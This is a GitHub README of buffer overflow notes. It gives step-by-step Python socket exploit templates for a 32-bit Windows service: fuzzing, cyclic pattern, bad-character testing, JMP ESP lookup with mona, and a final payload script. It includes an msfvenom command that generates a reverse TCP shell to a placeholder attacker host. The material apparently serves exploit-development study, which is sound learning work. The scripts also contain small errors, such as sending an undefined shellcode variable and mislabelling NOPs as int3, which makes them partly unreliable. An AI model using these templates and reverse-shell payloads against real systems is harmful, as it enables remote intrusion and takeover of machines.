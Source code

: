 # BufferOverflow Notes
Thanks to Legacy for for being a great teacher! Please check out his buffer overflow guide!
[Legacyy](https://github.com/iilegacyyii)  
[Legacyy's cheat sheet](https://github.com/iilegacyyii/x32-BOF-Notes)  

### 1 - Creating a socket to test the program.

```python
import socket
import struct

HOST = "<IP>"
PORT = <PORT>

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

buf = b""
buf += b"<FUNC> "
buf += b"A"*1000

s.send(buf)
print(s.recv(1024))
```

### 2 - Creating your cyclic pattern and overwriting your EIP

Creation of cyclic pattern
```
msf-pattern_create -l 1234
```

```python
import socket
import struct

HOST = "127.0.0.1"
PORT = 1234

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

cyclic_pattern = b"AddCyclicPattern"

buf = b""
buf += b"<FUNC> "
buf += cyclic_pattern

s.send(buf)
print(s.recv(1024))
```

### 3 - Testing for bad characters



```python
import socket
import struct

HOST = "127.0.0.1"
PORT = 1234

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

badchar_test = ""
badchars = [0x00]       # Definite bad chars

for i in range(0x00, 0xFF + 1): # range(0x00, 0xFF) only returns up to 0xFE
        if i not in badchars:
                badchar_test += chr(i)

with open("badchars.bin", "wb") as f:
    f.write(badchar_test)

buf = b""
buf += b"<FUNC> "
buf += b"BBBB"
buf += badchar_test

s.send(buf)
print(s.recv(1024))
```

### 4 - Finding your JMP ESP

```
!mona compare -a esp -f "c:\badchars.bin"
```

```
!mona jmp -r esp -cpb "\x00\x0A"
```

### 5 - Testing command execution

```python
import socket
import struct

HOST = "<IP>"
PORT = <PORT>

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

#bad characters <AddBadCharactersHere> 
offset = <OFFSET>
jmp_esp = struct.pack("<I", 0xJMPADDRESS)

buf = b""
buf += b"<FUNC> "
buf += b"A" * offset
buf += jmp_esp
buf += "\xCC\xCC\xCC"

s.send(buf)
print(s.recv(1024))
```

```
msfvenom -p windows/exec -b '\x00\x0A' -f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread
```

```
msfvenom -p windows/shell_reverse_tcp -b '\x00\x0A' -f python --var-name shellcode_shell LHOST="<IP>" LPORT=<PORT> EXITFUNC=thread
```

```python
import socket
import struct

HOST = "<Remote IP>"
PORT = <PORT>

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
print(s.recv(1024))

shellcode_shell =  b""
shellcode_shell += b"<ShellcodePayload"

#bad characters <AddBadCharactersHere> 
offset = 634
jmp_esp = struct.pack("<I", 0x625011AF)

buf = b""
buf += b"<FUNC> "
buf += b"A" * offset 
buf += jmp_esp
buf += b"\x90" * 100 #int3 instruction (breakpoint)
buf += shellcode_calc
s.send(buf)
print(s.recv(1024))
```
